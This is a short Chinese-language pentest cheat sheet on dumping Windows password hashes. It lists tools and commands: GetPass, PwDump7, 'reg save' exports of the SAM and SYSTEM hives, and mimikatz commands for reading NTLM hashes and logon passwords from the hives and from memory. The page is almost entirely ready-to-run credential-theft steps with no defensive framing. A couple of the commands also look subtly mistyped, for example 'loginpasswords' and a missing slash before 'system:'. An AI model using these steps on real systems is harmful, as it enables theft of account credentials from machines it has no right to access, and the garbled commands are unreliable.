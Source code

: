 ## [](#windows-%E7%B3%BB%E7%BB%9F%E6%95%A3%E5%88%97%E5%80%BC%E8%8E%B7%E5%8F%96)Windows 系统散列值获取

### [](#%E5%8D%95%E6%9C%BA%E5%AF%86%E7%A0%81%E6%8A%93%E5%8F%96)单机密码抓取

#### [](#getpass)GetPass

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>GetPassword_x64.exe<br>``` |

#### [](#pwdump7)PwDump7

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>PwDump7.exe<br>``` |

#### [](#%E9%80%9A%E8%BF%87-sam-%E5%92%8C-system-%E6%96%87%E4%BB%B6%E6%8A%93%E5%8F%96%E5%AF%86%E7%A0%81)通过 SAM 和 SYSTEM 文件抓取密码

##### [](#%E5%AF%BC%E5%87%BA-sam-%E5%92%8C-system-%E6%96%87%E4%BB%B6)导出 SAM 和 System 文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>reg save hklm\sam sam.hive<br>reg save hklm\system system.hive<br>``` |

##### [](#%E9%80%9A%E8%BF%87%E8%AF%BB%E5%8F%96-sam-%E5%92%8C-system-%E6%96%87%E4%BB%B6%E8%8E%B7%E5%BE%97-ntlm-hash)通过读取 SAM 和 System 文件获得 NTLM Hash

-   mimikatz

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>lsadump::sam /sam:sam.hive system:system.hive<br>``` |

-   cain
-   目标机器使用 mimikatz 直接读取本地 SAM 文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>privilege::debug<br>lsadump::sam<br>``` |

##### [](#%E4%BD%BF%E7%94%A8-mimikatz-%E5%9C%A8%E7%BA%BF%E8%AF%BB%E5%8F%96-sam-%E6%96%87%E4%BB%B6)使用 mimikatz 在线读取 SAM 文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>mimikatz.exe "privilege::debug" "log" "sekurlsa::loginpasswords" <br>``` |
